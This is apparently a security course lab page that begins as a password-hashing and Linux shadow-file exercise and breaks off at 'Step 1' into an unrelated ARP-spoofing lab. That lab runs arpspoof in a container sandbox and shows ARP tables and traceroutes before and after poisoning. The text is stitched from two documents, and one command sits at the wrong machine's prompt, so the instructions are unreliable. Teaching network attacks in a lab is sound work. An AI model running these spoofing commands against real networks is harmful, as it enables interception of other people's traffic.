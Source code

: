 ## Password Hashing and Cracking
Password is an important user authentication mechanism. Passwords are stored in the database as
hashes rather than plain text. If users’ passwords are stored in a database as plain text, malicious
hackers can get immediate access to them if they break into the system. In this lab, you will
understand what password hash is and how password hash be cracked.

## Password Hashing
A hash function turns any amount of data into a fixed-length “fingerprint” that cannot be reversed.  
The fixed-length “fingerprint” is called a hash value or hash code. 
The unique feature of hash functions is that any change in input data will result in a completely different hash code. Cryptographic hash functions are used to implement password hashing.There are multiplecryptographic hash functions, such as MD5, SHA-2.  

For example, the following are the MD5 hash codes of different strings.  
MD5(“hello”) = “5D41402ABC4B2A76B9719D911017C592”  
MD5(“hollo”) = “181D1F65FC3EDFC75945B24F22CD7E22”  
MD5(“helloo”) = “B373870B9139BBADE83396A49B1AFC9A”  

## Task1: Exploring Linux Password Hashes

The users’ information and passwords in Linux and UNIX operating system are stored in files.
/etc/passwd stores user accounts, and the /etc/shadow stores the information about user accounts
and the encrypted password hashes. /etc/shadow has more restrictive permissions than the
/etc/passwd file. On most Linux systems, only the root account has the ability to read the
contents of the shadow file.  

**Step 1: View the /etc/passwd file. Open a terminal and type the following command**


![Add ArpSpoof]({{ page.root }}/fig/arpspoof/add-arpspoof.png)

Next, click the *View* link to go to the application-specific page and start the application containers:

![Start Containers]({{ page.root }}/fig/arpspoof/start-containers.png)

> ## Container Launch Errors
>
> If a container fails to start, you will see a flashing warning icon next to the container's name. Take a look at the logs to 
> determine the cause of failure and try deleting the application and restarting.
{: .callout}

Once all the containers have started, launch each container's web interface in a separate browser tab by clicking the icon 
next to the container's name:

![Launch Containers]({{ page.root }}/fig/arpspoof/launch-containers.png)

We will start with the hacker. On the hacker browser tab, click on **Hacker.ipynb** to open a Jupyter notebook with instructions on 
conducting the attack:

![Open Hacker Notebook]({{ page.root }}/fig/arpspoof/hacker-notebook.png)

The next step is to find the IP address of the server. On the server browser tab, launch a new terminal window from the Jupyter 
notebook page:

![Server Terminal]({{ page.root }}/fig/arpspoof/launch-server-terminal.png)

To find the IP address of the server, use the *ifconfig* command at the server terminal:

~~~
jovyan@arpspoofserver:~$ ifconfig
~~~
{: .language-bash}

~~~
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1376
	inet 10.32.0.6 netmask 255.240.0.0 broadcast 10.47.255.255
	...
~~~
{: .output}

Make a note of the *inet* address returned on your terminal. Next, we will determine the IP address of the victim.

Launch a terminal in the victim browser window:

![Open Victim Terminal]({{ page.root }}/fig/arpspoof/victim-terminal.png)

Find the IP address of the victim using *ifconfig* at the victim terminal:

~~~
victim@arpspoofvictim:~$ ifconfig
~~~
{: .language-bash}

~~~
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1376
	inet 10.32.0.7 netmask 255.240.0.0 broadcast 10.47.255.255
	...
~~~
{: .output}

Now, inspect the ARP table on the victim (it only has one entry; the gateway):

~~~
victim@arpspoofvictim:~$ arp -n
~~~
{: .language-bash}

~~~
Address		HWtype		HWaddress		Flags Mask		Iface
10.32.0.1	ether		4a:6a:33:20:03:02	C			eth0
~~~
{: .output}

Next ping the server:

~~~
victim@arpspoofvictim:~$ ping 10.32.0.6
~~~
{: .language-bash}

~~~
PING 10.32.0.6 (10.32.0.6): 56 data bytes
64 bytes from 10.32.0.6: icmp_seq=0 ttl=64 time=0.171 ms
64 bytes from 10.32.0.6: icmp_seq=1 ttl=64 time=0.096 ms
64 bytes from 10.32.0.6: icmp_seq=2 ttl=64 time=0.072 ms
64 bytes from 10.32.0.6: icmp_seq=3 ttl=64 time=0.085 ms
...
~~~
{: .output}

Recheck the ARP table on the victim:

~~~
victim@arpspoofvictim:~$ arp -n
~~~
{: .language-bash}

~~~
Address		HWtype		HWaddress		Flags Mask		Iface
10.32.0.1	ether		4a:6a:33:20:03:02	C			eth0
10.32.0.6	ether		fa:65:b8:f5:81:46	C			eth0
~~~
{: .output}

It now has an entry for the server's IP. Now check the route to the server:

~~~
victim@arpspoofvictim:~$ traceroute 10.32.0.6
~~~
{: .language-bash}

~~~
traceroute to 10.32.0.6 (10.32.0.6), 64 hops max
1	10.32.0.6	0.003ms		0.002ms		0.001ms
~~~
{: .output}

Now we will conduct the ARP poisoning attack from the hacker. Open a terminal window on the hacker:

![Open Hacker Terminal]({{ page.root }}/fig/arpspoof/launch-hacker-terminal.png)

Run the *arpspoof* command on the hacker terminal with the victim and server IP addresses:

~~~
victim@arpspoofvictim:~$ sudo arpspoof -t 10.32.0.7 10.32.0.6
~~~
{: .language-bash}

~~~
da:ee:b1:44:c2:78 7a:a8:53:6d:57:65 0806 42: arp reply 10.32.0.6 is-at da:ee:b1:44:c2:78
da:ee:b1:44:c2:78 7a:a8:53:6d:57:65 0806 42: arp reply 10.32.0.6 is-at da:ee:b1:44:c2:78
da:ee:b1:44:c2:78 7a:a8:53:6d:57:65 0806 42: arp reply 10.32.0.6 is-at da:ee:b1:44:c2:78
da:ee:b1:44:c2:78 7a:a8:53:6d:57:65 0806 42: arp reply 10.32.0.6 is-at da:ee:b1:44:c2:78
~~~
{: .output}

> ## Order of arguments
> Note the order of arguments to the *arpspoof* command; the victim IP comes first followed by 
> the server IP address.
{: .callout}

Now ping the server again from the victim. You may need to wait a bit to see the output below:

~~~
victim@arpspoofvictim:~$ ping 10.32.0.6
~~~
{: .language-bash}

~~~
PING 10.32.0.6 (10.32.0.6): 56 data bytes
64 bytes from 10.32.0.6: icmp_seq=0 ttl=64 time=0.121 ms
64 bytes from 10.32.0.6: icmp_seq=1 ttl=64 time=0.082 ms
64 bytes from 10.32.0.6: icmp_seq=2 ttl=64 time=0.071 ms
64 bytes from 10.32.0.6: icmp_seq=3 ttl=64 time=0.096 ms
...
~~~
{: .output}

Let's recheck the ARP tables on the victim:

~~~
victim@arpspoofvictim:~$ arp -n
~~~
{: .language-bash}

~~~
Address		HWtype		HWaddress		Flags Mask		Iface
10.32.0.1	ether		4a:6a:33:20:03:02	C			eth0
10.32.0.6	ether		da:ee:b1:44:c2:78	C			eth0
10.32.0.8	ether		da:ee:b1:44:c2:78	C			eth0
~~~
{: .output}

> ## What is wrong with this ARP table?
> Notice that the server's IP address entry now has a different MAC (HWaddress) that before.
> Also, there are two IP addresses, both with the same MAC address. 10.32.0.8 is the IP address 
> of the hacker. Astute observers will also note that this MAC address was the response the *arpspoof*
> command was returning.
{: .callout}

Now check the route from the victim to the server:

~~~
victim@arpspoofvictim:~$ traceroute 10.32.0.6
~~~
{: .language-bash}

~~~
traceroute to 10.32.0.6 (10.32.0.6), 64 hops max
1	10.32.0.8	0.003ms		0.002ms		0.002ms
2	10.32.0.6	0.002ms		0.002ms		0.002ms
~~~
{: .output}

> ## What does traceroute tell us?
> There are now two hops that each message from the victim to the server is taking; first to the hacker 
> and then to the server.
{: .callout}

{% include links.md %}
